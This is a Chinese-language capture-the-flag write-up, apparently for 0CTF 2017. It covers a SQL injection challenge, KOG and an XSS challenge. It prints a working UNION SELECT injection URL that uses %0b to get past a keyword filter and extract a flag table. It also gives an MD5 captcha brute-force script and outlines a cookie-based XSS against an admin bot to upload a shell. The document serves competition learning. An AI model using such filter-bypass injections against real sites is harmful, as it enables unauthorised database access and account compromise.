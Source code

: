 很明显的sql注入

用%0b绕过

http://202.120.7.203/index.php?id=-1%20union%20se%0blect%201,(sel%0bect%20flag%20fr%0bom%20flag),3



还有%00也可以



### KOG

最近没那么多精力，暂时不看了。后面有时间补充吧。

https://jiulongw.github.io/post/0ctf-2017-kog/

思路好像是能通过调试器得到哈希值，从而伪造，进行sql注入

sql注入没有过滤任何东西，主要就是考验chrome调试能力。

### Compliacted xss

通过这个脚本爆破md5验证码

```python
#!/usr/bin/env python
#-*- coding:utf-8 -*-
import hashlib
i = 0
while(True):
	s = str(i)
	test = hashlib.md5(s).hexdigest()
	if test.startswith('c2d7c9'):
		print '[!]', 'found:', s,test
		break
	i+=1



```

这题的大体意思是：

http://government.vip/

会给我们一个可以xss的输入框，输入的东西会被后台转为html，然后admin会去访问这个页面导致XSS。

 http://admin.government.vip:8000

提示需要上传shell。用burpsuite抓包，可以发现cookie中的username可以控制页面上的东西(test)

```html
<h1>Hello test</h1>
```

然后，最基本的思路就是在government.vip上跨域控制一个cookie，去访问admin.government.vip:8000

我基本对xss不是很了解，做了很久很久。。
